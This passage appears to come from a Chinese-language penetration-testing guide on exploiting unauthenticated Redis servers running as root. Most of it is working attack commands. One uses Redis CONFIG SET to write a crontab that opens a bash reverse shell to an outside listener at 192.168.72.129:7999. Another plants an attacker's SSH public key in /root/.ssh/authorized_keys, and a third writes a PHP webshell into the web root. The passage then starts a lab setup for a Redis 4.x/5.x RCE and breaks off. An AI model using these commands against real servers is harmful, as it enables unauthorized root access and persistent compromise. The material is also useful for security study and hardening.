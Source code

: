     **利用计划任务执行命令反弹 shell**

    在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹 shell 先在自己的服务器上监听一个端口 `nc -lvnp 7999` 然后执行命令:
    ```bash
    > set x "\n* * * * * /bin/bash -i > /dev/tcp/192.168.72.129/7999 0<&1 2>&1\n"
    > config set dir /var/spool/cron/
    > config set dbfilename root
    > save
    ```

    **写 ssh-keygen 公钥然后使用私钥登陆**

    在以下条件下,可以利用此方法
    1. Redis 服务使用 ROOT 账号启动
    2. 服务器开放了 SSH 服务,而且允许使用密钥登录,即可远程写入一个公钥,直接登录远程服务器.

    首先在本地生成一对密钥 `ssh-keygen -t rsa` 然后执行命令:
    ```bash
    将公钥的内容写到一个文本中命令如下
    (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt

    将里面的内容写入远程的 Redis 服务器上并且设置其 Key 为 test命令如下
    cat test.txt | redis -cli -h <hostname> -x set test
    redis-cli -h <hostname>
    keys *
    get test
    config set dir "/root/.ssh"
    config set dbfilename "authorized_keys"
    save
    ```
    保存后可以直接利用公钥登录 ssh

    **往 web 物理路径写 webshell**

    当 redis 权限不高时,并且服务器开着 web 服务,在 redis 有 web 目录写权限时,可以尝试往 web 路径写 webshell
    执行以下命令
    ```bash
    > config set dir /var/www/html/
    > config set dbfilename shell.php
    > set x "<?php phpinfo();?>"
    > save
    ```
    即可将 shell 写入 web 目录(web 目录根据实际情况)

**Redis 4.x 5.x RCE**
- 搭建环境
    ```bash
    yum install tcl
    wget download.redis.io/releases/redis-4.0.11.tar.gz
    tar zxf redis-4.0.11.tar.gz
    cd redis-4.0.11
    make PREFIX=/usr/local/redis install

    /usr/local/redis/bin/redis-server

    参考 https://mp.weixin.qq.com/s/MSWLqzyNnliX1G7TRYAwVw
    ```

